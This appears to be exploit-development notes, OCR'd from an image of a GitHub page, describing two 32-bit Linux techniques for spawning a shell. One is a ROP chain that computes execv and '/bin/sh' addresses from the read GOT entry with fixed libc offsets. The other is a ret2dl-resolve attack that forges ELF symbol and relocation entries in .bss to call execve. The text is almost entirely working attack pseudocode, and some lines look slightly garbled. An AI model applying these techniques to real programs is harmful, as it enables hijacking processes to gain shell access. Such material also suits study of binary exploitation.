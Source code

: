 Memory leakless exploit
=======================

We want to call an execv.

read_offset = 000e3e10
offset_execv_read = 000bd890 - read_offset
offset_binsh_read = 00166046 - read_offset

execv_address = *(read_got) + offset_execv_read
final_return = 0xdeadb00b
binsh_address = *(read_got) + offset_binsh_read
pointer_to_null = 08048008

new_stack = .bss + 1024

Steps of the attack:

1. int *new_stack = writable_position + exploit_size
2. writemem(new_stack--, pointer_to_null)
3. mem_to_mem(read_got, new_stack)
4. add(new_stack--, offset_binsh_read)
5. writemem(new_stack--, final_return)
6. mem_to_mem(read_got, new_stack)
7. add(new_stack--, offset_execv_read)

libcless exploit
================

char *buffer = .bss;
char *new_stack = buffer + 1024;
int *rubbish = new_stack + 4;

strcpy(buffer, "execve");
  *((int *) buffer) = 'exec';
  *(((int *) buffer) + 1) = 've\0\0';  
char *name = buffer;
buffer += strlen(buffer) + 1;

Elf32_Sym *symbol = (Elf32_Sym *) buffer;
symbol->st_name = name - .dynstr;
symbol->st_value = 0;
symbol->st_info = 0;
symbol->st_other = 0;
symbol->st_shndx = 0;
buffer += sizeof(*symbol);

Elf32_Rel *reloc = (Elf32_Rel *) buffer;
reloc->r_offset = rubbish++;
reloc->r_info = (R_386_JUMP_SLOT | (symbol - .dynsym) / sizeof(symbol));
buffer += sizeof(reloc):

pre_plt((reloc - .rel.plt) / sizeof(Elf32_Rel));
